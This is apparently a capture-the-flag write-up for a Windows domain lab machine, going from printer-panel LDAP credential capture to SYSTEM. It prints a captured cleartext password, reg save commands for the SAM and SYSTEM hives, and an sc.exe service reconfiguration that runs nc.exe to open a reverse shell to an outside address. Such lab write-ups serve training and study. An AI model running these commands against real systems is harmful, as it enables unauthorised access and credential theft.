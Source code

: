 # Return

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.241 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:24 EDT
Nmap scan report for 10.129.95.241
Host is up (0.0073s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49698/tcp open  unknown
```

### SMB Enum

`enum4linux` returned nothong of interest with both null and guest credentials.&#x20;

### LDAP

`ldapsearch` returns nothing because we have no credentials.

### HTTP --> Printer Creds

There is a HTTP port open, and when viewed, it shows a Printer Admin Panel:

<figure><img src="../../../.gitbook/assets/image (3167).png" alt=""><figcaption></figcaption></figure>

When we view the settings, this is what we see:

<figure><img src="../../../.gitbook/assets/image (1257).png" alt=""><figcaption></figcaption></figure>

This looks poisanable since we can control the server address. As such, I started `responder`.&#x20;

```bash
$ sudo responder -I tun0
LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

We now have some credentials. We can use these to login with `evil-winrm`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3470).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### SeBackupPrivilege Fail

When we check our privileges, we see that we have a lot:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

With this, we can save the `system` and `sam` files, then dump the hashes with `secretsdump.py`.&#x20;

```
reg save hklm\sam c:\users\svc-printer\sam
reg save hklm\system c:\users\svc-printer\system
download sam
download system
```

Afterwards, we can dump hashes:

<figure><img src="../../../.gitbook/assets/image (1678).png" alt=""><figcaption></figcaption></figure>

However, when trying to pass the hash, it seems that this doesn't work.

### Services Exploit

When we check which groups we are part of in the machine, we see that `svc-printer` is part of Server Operators.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

We can also check the services running with `services`.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```

Since we have privileges over some of the services, we can follow this article online to execute a reverse shell via `nc.exe` as `SYSTEM`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

However, it seems that although we have privileges over these services, we cannot restart them for some reason. So we need to find a service that is currently stopped, then change its configuration and start it.&#x20;

Again, we fail in this aspect because we don't have access to the Service Control Manager to view what we can control. So in this case, I used a writeup and saw that they used the VSS service to do the exploit.&#x20;

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query VSS

SERVICE_NAME: VSS
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

I wasn't too sure how they got to using this. Anyways, we can configure it like so:

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Windows\system32\cmd.exe /c C:\users\svc-printer\documents\nc.exe -e cmd.exe 10.10.14.13 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

This would create a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (2367).png" alt=""><figcaption></figcaption></figure>
